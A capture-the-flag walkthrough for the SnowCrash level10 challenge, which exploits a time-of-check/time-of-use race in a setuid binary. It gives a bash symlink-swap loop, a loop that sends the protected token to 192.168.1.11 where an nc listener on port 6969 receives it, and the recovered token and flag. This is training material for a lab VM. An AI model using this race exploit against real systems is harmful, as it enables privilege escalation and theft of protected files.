 For this level we see 2 files 

	level10@SnowCrash:~$ ls
	level10  token

We try to execute level10 with the token on argument

	level10@snowcrash:~$ ./level10 token
	./level10 file host
		sends file to host if you have access to it

We understand that we need to send a file to an host
We need to have access to this file

When we look at the strings in the level10 executable we see that it use open and access

But it is a huge security problem because there is a delta time between the check for the right access and the opening of the file.

So we are gonna use that.

We need to do a bash script that is going to create simlink to a file that we have access and a the token file so it is going to be a time where the program try to access the file we have access to and then will open the file we want to open and we don't have access to.

	#! /bin/bash

	while true; do
			touch /tmp/link
			rm -f /tmp/link
			ln -s /home/user/level10/token /tmp/link
			rm -f /tmp/link
	done


We also see that the program is connecting to the port 6969.
So we need to listen on this port and launch our script to create the simlinks with : nc -lk 6969

Then we need to launch the level10 program
To make that easier we will make a bash script that launch this script in an infinite loop

	#! /bin/bash

	while true; do 
		/home/user/level10/level10 /tmp/link 192.168.1.11
	done

And now we just have to take the content of the token file

	.*( )*.
	.*( )*.
	.*( )*.
	.*( )*.
	.*( )*.
	woupa2yuojeeaaed06riuj63c
	.*( )*.
	.*( )*.
So we use woupa2yuojeeaaed06riuj63c to connect to flag10

	level10@SnowCrash:~$ su flag10
	Password: 
	Don't forget to launch getflag !

Then launch getflag

	flag10@SnowCrash:~$ getflag
	Check flag.Here is your token : feulo4b72j7edeahuete3no7c



